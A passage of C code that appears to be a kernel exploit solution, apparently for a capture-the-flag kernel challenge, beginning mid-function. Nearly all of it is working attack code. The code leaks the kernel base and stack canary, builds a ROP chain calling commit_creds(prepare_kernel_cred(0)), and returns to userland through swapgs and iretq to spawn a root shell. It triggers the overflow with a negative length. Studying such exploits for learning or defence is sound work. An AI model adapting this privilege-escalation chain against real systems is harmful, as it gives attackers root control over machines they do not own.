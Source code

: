 ```c
    }

    
    // get commit_creds and prepare_kernel_cred 
    get_address();
    
    char buf[0x50]={0};
    // cal real vm base
    vmlinux_base=commit_creds-0x9c8e0;
    vmoffset=vmlinux_base-raw_vmlinux_base;
    printf("\033[34m\033[1m[*] This is real vmlinux base :\033[0m%llx\n",vmlinux_base);

    // leak canary
    edit_off(64);
    coreRead(buf);
    
    size_t canary=((size_t*)buf)[0];
    printf("\033[35m\033[1m[*] The value of canary is the first 8 bytes: \033[0m%#llx\n", canary);

    // make rop chain
    size_t rop_chain[0x100];
    int i=0;
    // padding and canary
    for(; i<10; i++)
		rop_chain[i] = canary;
    
    // commit_creds(prepare_kernel_cred(0)); 
    // rdi=0
    rop_chain[i++]=pop_rdi_ret+vmoffset;
    rop_chain[i++]=0;
    // prepare_kernel_cred(0);
    rop_chain[i++]=prepare_kernel_cred;
    // rdi=rax; call rdx --> pop rcx(move the next code of mov) --> commit_creds(prepare_kernel_cred(0));
    rop_chain[i++]=pop_rdx_ret+vmoffset;
    rop_chain[i++]=pop_rcx_ret+vmoffset;
    rop_chain[i++]=mov_rdi_rax_call_rdx+vmoffset;
    rop_chain[i++]=commit_creds;
    // ret2usr swags; iretq
    rop_chain[i++]=swapgs_popfq_ret+vmoffset;
    rop_chain[i++]=0;   // popfq
    rop_chain[i++]=iretq_ret+vmoffset;
    // after the iretq: return address, user cs, user rflags, user sp, user ss
    rop_chain[i++]=(size_t)shell;
    rop_chain[i++]=user_cs;
    rop_chain[i++]=user_rflags;
    rop_chain[i++]=user_sp;
    rop_chain[i++]=user_ss;

	printf("\033[34m\033[1m[*] Our rop chain looks like: \033[0m\n");
	print_binary((char*)rop_chain, 0x100);

	write(fd, (char*)rop_chain, 0x800);
    // use negative number overflow
	coreCopyFunc(0xffffffffffff0100);
    return 0;

}
```





